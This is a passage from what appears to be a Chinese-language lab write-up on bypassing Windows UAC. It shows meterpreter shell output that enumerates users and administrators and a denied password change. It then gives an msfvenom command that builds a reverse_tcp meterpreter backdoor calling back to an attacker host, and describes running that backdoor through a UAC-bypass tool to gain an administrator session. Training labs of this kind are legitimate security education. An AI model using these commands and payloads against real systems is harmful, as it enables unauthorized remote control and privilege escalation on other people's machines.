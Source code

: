 由于需要管理员在UAC提示消息中进行确认，更改用户admin密码的操作访问被拒绝。admin账户在本地组administrators中，可以利用它bypass UAC。

```
meterpreter > shell
Process 2496 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>net user
net user

User accounts for \\VICTIM

-------------------------------------------------------------------------------
admin                    Administrator            Guest                    
The command completed successfully.


C:\Windows\system32>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
admin
Administrator
The command completed successfully.


C:\Windows\system32>net user admin password123
net user admin password123
System error 5 has occurred.

Access is denied.

```

首先，使用msfvenom生成后门，利用metasploit multi handler监听该后门。将后门和bypass UAC提权工具Akagai上传到目标主机，在目标主机上利用Akagai执行后门，就可以绕过UAC，以特权运行后门，从而获得有管理员权限的meterpreter session。

```
root@attackdefense:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.21.2 LPORT=1234 -f exe > backdoor.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
root@attackdefense:~# ls
Desktop  backdoor.exe  thinclient_drives
root@attackdefense:~# pwd
/root

```
